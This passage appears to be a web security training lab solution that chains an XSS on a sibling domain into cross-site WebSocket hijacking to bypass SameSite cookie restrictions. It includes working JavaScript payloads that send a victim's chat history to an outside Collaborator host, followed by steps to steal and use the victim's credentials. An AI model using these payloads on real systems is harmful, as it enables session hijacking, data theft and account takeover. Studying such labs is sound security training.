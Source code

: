     Send the POST /login request containing the XSS payload to Burp Repeater.

    In Burp Repeater, right-click on the request and select Change request method to convert the method to GET. Confirm that it still receives the same response.

    Right-click on the request again and select Copy URL. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.

Bypass the SameSite restrictions

    Recreate the CSWSH script that you tested on the exploit server earlier.
    <script>
        var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
        ws.onopen = function() {
            ws.send("READY");
        };
        ws.onmessage = function(event) {
            fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
        };
    </script>

    URL encode the entire script.

    Go back to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested, but use the URL-encoded CSWSH payload as the username parameter. The following is one possible approach:
    <script>
        document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
    </script>

    Store and view the exploit yourself.

    In Burp, go back to the Collaborator tab and click Poll now. Observe that you've received a number of new interactions, which contain your entire chat history.

    Go to the Proxy > HTTP history tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent GET /chat request.

    Confirm that this request does contain your session cookie. As it was initiated from the vulnerable sibling domain, the browser considers this a same-site request.

Deliver the exploit chain

    Go back to the exploit server and deliver the exploit to the victim.

    In Burp, go back to the Collaborator tab and click Poll now.

    Observe that you've received a number of new interactions.

    Study the HTTP interactions and notice that these contain the victim's chat history.

    Find a message containing the victim's username and password.

    Use the newly obtained credentials to log in to the victim's account and the lab is solved.
---
